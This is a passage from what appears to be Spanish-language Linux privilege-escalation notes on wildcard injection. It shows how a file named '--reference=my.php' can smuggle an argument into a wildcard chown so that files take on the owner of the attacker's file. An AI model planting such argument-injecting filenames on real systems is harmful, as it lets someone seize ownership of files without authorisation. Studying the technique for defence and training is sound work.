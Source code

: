 Creamos 3 archivos, vemos que el ultimo tiene un nombre muy peculiar. Si intentamos leerlo nos saldra la ayuda del comando cat.

```bash
cat --help
[menu de ayuda]
```

este tipo de truco se llama Wildacrd wildness.

### secuestro del propietario a traves de chown y chmod

el comando chown se usa para cambiar el propietario de un archivo, tiene una propiedad llamada **--reference** que se lo iguala a una archivo y el o los archivos que tienen ese parametro mas chown adquieren el propietario y grupo del valor de **--reference**

Vamos a ver un ejemplo:

tenemos lo siguiente:

```bash
ls -la

drwxrwxrwx	2 root	root	4096 Jun 12 22.:20 .
drwxrwxrwx 21 bad	bad	4096 Jun 12 22.:20 ..
-rw-rw-r--  1 pepe  pepe	  23 Jun 12 22.:20 1.php
-rw-rw-r--  1 pepe  pepe	  23 Jun 12 22.:20 2.php
-rw-rw-r--  1 pepe  pepe	  23 Jun 12 22.:20 3.php
-rw-rw-r--  1 pepe  pepe	  23 Jun 12 22.:20 4.php
-rw-rw-r--  1 pepe  pepe	  23 Jun 12 22.:20 5.php
-rw-rw-r--  1 pepe  pepe	  23 Jun 12 22.:20 6.php
```

nos creamos 2 archivos.

```bash
echo "" > my.php
echo > --reference=my.php
```

Este ultimo es el que contiene los wildcard

```bash
ls -la

drwxrwxrwx	2 root	root	4096 Jun 12 22.:20 .
drwxrwxrwx 21 bad	bad	4096 Jun 12 22.:20 ..
-rw-rw-r--  1 pepe  pepe	  23 Jun 12 22.:20 1.php
-rw-rw-r--  1 pepe  pepe	  23 Jun 12 22.:20 2.php
-rw-rw-r--  1 pepe  pepe	  23 Jun 12 22.:20 3.php
-rw-rw-r--  1 pepe  pepe	  23 Jun 12 22.:20 4.php
-rw-rw-r--  1 pepe  pepe	  23 Jun 12 22.:20 5.php
-rw-rw-r--  1 pepe  pepe	  23 Jun 12 22.:20 6.php
-rw-rw-r--  1 chris chris	  23 Jun 12 22.:20 my.php
-rw-rw-r--  1 chris chris	  23 Jun 12 22.:20 --reference=my.php
```
